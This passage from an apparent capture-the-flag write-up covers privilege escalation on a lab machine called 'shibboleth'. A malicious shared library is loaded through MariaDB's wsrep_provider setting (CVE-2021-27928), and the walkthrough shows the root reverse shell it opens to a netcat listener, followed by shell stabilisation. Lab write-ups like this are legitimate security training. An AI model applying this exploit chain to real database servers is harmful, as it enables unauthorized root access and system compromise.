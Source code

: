 Now we connect to the database again and load our shared library.

```
ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1287
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
```

This results in a reverse shell on our listener as root and we can add the flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.255.116.
Ncat: Connection from 10.129.255.116:54742.
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@shibboleth:/var/lib/mysql# export TERM=xterm
export TERM=xterm
root@shibboleth:/var/lib/mysql# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@shibboleth:/var/lib/mysql# id
uid=0(root) gid=0(root) groups=0(root)
root@shibboleth:/var/lib/mysql# wc -c /root/root.txt
33 /root/root.txt
```

